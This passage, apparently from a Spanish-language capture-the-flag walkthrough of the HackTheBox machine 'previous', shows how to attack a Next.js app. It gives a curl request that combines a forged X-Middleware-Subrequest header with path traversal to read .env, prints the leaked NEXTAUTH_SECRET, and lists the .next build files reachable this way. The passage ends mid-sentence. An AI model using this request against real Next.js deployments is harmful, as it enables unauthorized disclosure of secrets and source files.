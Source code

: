 ```
│   ├── auth.js           # Configuración de NextAuth
│   └── db.js             # Conexión a base de datos
├── components/           # Componentes React
├── public/              # Archivos estáticos
├── .env                 # Variables de entorno
├── .env.local           # Variables locales
├── package.json
└── next.config.js
```

Si probamos con la mayoria de archivos algunos iran y otros no, pero si probamos con `.env` veremos esto:

```shell
curl -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" "http://previous.htb/api/download?example=../../.env"
```

Info:

```
NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a
```

Vemos que es un `hash` en `MD5`, pero no podremos hacer de momento con el nada mas interesante, con ayuda de la `IA` si le pedimos que nos diga una estructura de archivos comunes de `.next` veremos que nos funcionan estos archivos:

```
.next/
├── build-manifest.json                 ✅ FUNCIONA
├── prerender-manifest.json            ✅ FUNCIONA
├── routes-manifest.json               ✅ FUNCIONA
├── static/
│   └── -ipsiOtEey-zESpHzrwmc/
│       ├── _buildManifest.js          ✅ FUNCIONA
│       └── _ssgManifest.js            ✅ FUNCIONA
├── server/
│   ├── pages-manifest.json            ✅ FUNCIONA
│   ├── middleware-manifest.json       ✅ FUNCIONA
│   ├── pages/
│   │   ├── _app.js                    ✅ FUNCIONA
│   │   ├── _error.js                  ✅ FUNCIONA  
│   │   ├── api/
│   │   │   ├── auth/
│   │   │   │   └── [...nextauth].js   ✅ FUNCIONA
│   │   │   └── download.js            ✅ FUNCIONA
│   │   ├── index.html                 ✅ (pero es HTML estático)
│   │   ├── signin.html                ✅ (pero es HTML estático)
│   │   └── docs/
│   │       ├── [section].html         ✅ (pero es HTML estático)
│   │       └── *.html                 ✅ (otros HTML estáticos)
```

Si las probamos la mas importante que podemos ver es esta:
